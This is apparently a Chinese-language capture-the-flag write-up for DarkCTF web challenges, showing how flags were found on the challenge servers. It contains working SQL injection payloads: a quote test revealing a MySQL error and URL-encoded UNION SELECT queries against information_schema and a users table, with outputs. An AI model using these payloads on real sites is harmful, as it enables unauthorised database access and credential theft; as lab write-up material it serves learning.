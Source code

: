 轉成ascii，得到真正的flag
>flag is DarkCTF{5ql_1nj3ct10n}
### Simple_SQL
#### 題目:
Try to find username and password
http://simplesql.darkarmy.xyz/
#### 解法:
打開html提示用id當作參數
用id=1測試後跳出了Username跟password
```
http://simplesql.darkarmy.xyz/?id=1
```
>Username : LOL Password : Try

原本想開始sql injection，但是看這題的名字跟解出來的人數想說先往上試試看
試到id=9的時候就拿到flag了XD，也太無腦==
>Username : flag Password : darkCTF{it_is_very_easy_to_find}
### So_Simple
#### 題目:
"Try Harder" may be You get flag manually

Try id as parameter

http://web.darkarmy.xyz:30001
#### 解法:
這次我想最久也學到最多東西的一題，雖然也算簡單
一樣根據題目提示把id當作參數
```
http://web.darkarmy.xyz:30001/?id=1
```
>Your Login name:LOL
Your Password:Try

加個'，確定有sql injection漏洞
```
http://web.darkarmy.xyz:30001/?id=1%27
```
>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

看到MySQL後想到有information_schema可以看，使用UNION-based開始注入
```
http://web.darkarmy.xyz:30001/?id=-1%27%20UNION%20SELECT%201,2,table_name%20FROM%20information_schema.tables%20WHERE%20%272%27%3E%271
```
>Your Login name:2
Your Password:CHARACTER_SETS

發現被LIMIT 0,1卡死，無法看到所有的table_name
於是轉向開始嘗試註解掉或靠UNION無視掉，但都失敗
推測LIMIT 0,1是強制被concat上去的
只好開始通table名跟column名，成功通出table users與其column id,username,password
接著通username，先猜admin，用LIKE是我以為=被篩掉了，但其實沒有
```
http://web.darkarmy.xyz:30001/?id=-1%27%20UNION%20(SELECT%20id,username,password%20FROM%20users%20WHERE%20username%20LIKE%20%27admin%27)%20UNION%20SELECT%201,2,3%27
```
很明顯被騙了XD
>Your Login name:admin
Your Password:darkCTF{this_is_not_a_flag}
